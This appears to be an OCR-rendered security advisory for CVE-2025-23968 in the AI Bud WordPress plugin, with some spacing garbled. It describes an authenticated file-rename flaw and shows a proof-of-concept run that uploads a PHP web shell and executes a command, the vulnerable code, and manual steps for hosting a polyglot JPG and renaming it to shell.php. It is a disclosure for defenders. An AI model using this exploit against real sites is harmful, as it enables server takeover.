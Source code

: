 # AI Bud – AI Content Generator, AI Chatbot, ChatGPT, Gemini, GPT-4o

The [AI Bud](https://wordpress.org/plugins/aibuddy-openai-chatgpt/) plugin exposes a REST API endpoint `/wp-json/ai-buddy/v1/wp/attachments` that allows uploading files to the WordPress media library. The endpoint’s file logic contains file renaming functionality that triggers after file type validation, and allows the attacker to rename the uploaded file to any extension (including.php) allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits

A POC cve-2025-23968.py is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```
python cve-2025-23968.py https://lab 1 .hacker admin PASSWORD
Logging into: https://lab 1 .hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
Executing test command: ip addr

<pre> 1 : lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN
group default qlen 1000
    link/loopback 00 : 00 : 00 : 00 : 00 : 00 brd 00 : 00 : 00 : 00 : 00 : 00
    inet 127. 0. 0. 1 / 8 scope host lo
        valid_lft forever preferred_lft forever
    inet 6 :: 1 / 128 scope host
        valid_lft forever preferred_lft forever
2 : eth 0 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08 : 00 : 27 : 5 b: 34 : 2 f brd ff:ff:ff:ff:ff:ff
altname enp 0 s 3
    inet 10. 0. 2. 15 / 24 metric 100 brd 10. 0. 2. 255 scope global dynamic eth 0
        valid_lft 75700 sec preferred_lft 75700 sec
    inet 6 fd 17 : 625 c:f 037 : 2 :a 00 : 27 ff:fe 5 b: 342 f/ 64 scope global dynamic
mngtmpaddr noprefixroute
        valid_lft 86174 sec preferred_lft 14174 sec
    inet 6 fe 80 ::a 00 : 27 ff:fe 5 b: 342 f/ 64 scope link
        valid_lft forever preferred_lft forever
3 : eth 1 : <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08 : 00 : 27 : 39 :ea:eb brd ff:ff:ff:ff:ff:ff
altname enp 0 s 8
    inet 192. 168. 56. 56 / 24 brd 192. 168. 56. 255 scope global eth 1
        valid_lft forever preferred_lft forever
    inet 6 fe 80 ::a 00 : 27 ff:fe 39 :eaeb/ 64 scope link
        valid_lft forever preferred_lft forever
4 : docker 0 : <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue
state DOWN group default
    link/ether 02 : 42 : 6 f: 4 c: 3 e:ed brd ff:ff:ff:ff:ff:ff
    inet 172. 17. 0. 1 / 16 brd 172. 17. 255. 255 scope global docker 0
        valid_lft forever preferred_lft forever
</pre>
```

## Details

The plugin registers its REST API routs in `/wp-content/plugins/aibuddy-openai-chatgpt/src/Rest.php`

Lines 250-284 register the REST route for the `/wp/attachments` endpoint. The callback function is defined as `create_attachment`:

```php
register_rest_route(
    $namespace,
    '/wp/attachments',
    array(
        'methods' => 'POST',
        'permission_callback' => array( AuthGate::class, 'authorized'
    ),
        'callback' => array( $this, 'create_attachment' ),
    'args' => array(
    'title' => array(
    'required' => true,
    'type' => 'string',
    ),
    'caption' => array(
    'required' => true,
    'type' => 'string',
    ),
    'alt' => array(
    'required' => true,
    'type' => 'string',
    ),
    'description' => array(
    'required' => true,
    'type' => 'string',
    ),
    'url' => array(
    'required' => true,
    'type' => 'string',
    ),
    'filename' => array(
    'required' => false,
    'type' => 'string',
    ),
),
```


The `create_attachment` function is defined on Line 709, and the renaming logic starts at Line 744. As seen in the snippet below, if the `$filename` parameter is specified it can be used to rename an existing attachment (unsanitized):

```php
// strip possible path from filename
$filename = basename( sanitize_text_field( $request->get_param( 'filename'
) ) );
if (! empty( $filename ) ) {
    $file = get_attached_file( $attachment_id, true );
    $dir = dirname( $file );
    $new_file = $dir. '/'. $filename;
    if ( file_exists( $new_file ) ) {
        $new_file = $dir. '/'. uniqid(). '-'. $filename;
    }
    $this->move_file( $file, $new_file );
    update_attached_file( $attachment_id, $new_file );
}
```
## Manual Reproduction

The .php Renaming Attack

1. Attacker prepares a file calledshell.jpgwith the following qualities (see example).
    1. File containsmagic bitsfor jpg `FF D8 FF E0`.
    2. File has `.jpg` extension.
    3. File contains php code for a web shell.
2. The attacker hostsshell.jpgon a server they control (like Github).
3. The attacker sends a POST request to `/wp-json/ai-buddy/v1/wp/attachments` with:
    1.url: the URL toshell.jpg
    2.filename:shell.php
4. The attacker accesses `/wp-content/uploads/YEAR/MONTH/shell.php` and executes arbitrary
    PHP code.


